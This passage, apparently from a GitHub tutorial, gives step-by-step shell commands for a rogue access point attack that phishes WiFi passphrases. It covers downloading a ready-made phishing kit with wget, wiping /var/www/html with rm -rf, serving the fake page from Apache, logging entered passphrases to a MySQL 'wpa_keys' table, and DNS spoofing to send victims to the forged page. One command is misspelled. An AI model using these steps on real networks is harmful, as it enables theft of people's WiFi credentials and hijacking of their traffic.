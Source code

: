 When, the data from a user will be posted to server, whatever will be entered in those fields which we will see how in the subsequent steps, will be saved in this database table. Then after that you can check for table changes:

```bash
mysql> select * from wpa_keys;
```

![emptykeys](https://github.com/user-attachments/assets/4308411c-8f65-40ee-8746-639fd2e0f8b4)


### Phishing Site
Now, we are required a phishing site, a falsified page or a forged document, basically a web document to induce a user to enter his WiFi passphrase in the document fields. You better want to create your own. But for now, let just download this one:
```bash
wget https://github.com/user-attachments/files/16739611/rogueap.zip
```

Extract the zip file which will give you a new folder rogueap.
```bash
unzip rogueap.zip
```

Remove all the current files under /var/www/html and move all rogueap files to this directory
```bash
rm -rf /var/www/html/*
mv rogueap/* /var/www/html/
```

### Apache and MySQL
Start Apache2 and MySQL Services:
```bash
service apache2 start
service mysql start
```

The main logic behind password storage is placed under the file dbconnect.php which is by now located under /var/www/html/ directory. Go on and open that file:
```bash
nano /var/www/html/dbconnect.php
```
![database](https://github.com/user-attachments/assets/d7bfc38f-670b-4eaa-a8e9-9e5167166605)


Note, the highlighted fields in the above picture. This is where database credentials are defined. It means if you mess with database configuration, you have to alter this file too or vice virsa.

Now, just redirect the network traffic to Gateway IP where our forged document is located:
```bash
dnssnoof -i wlan1mon
```
![dnsspoof](https://github.com/user-attachments/assets/84e840ec-f275-4daa-a715-058c94f1ff79)

<quote>
If until yet everything works, open the link 192.168.1.1 in your browser and see if the document is available. If it is, then try once entering any value in the fields and check in the database terminal if changes are commited.
</quote>
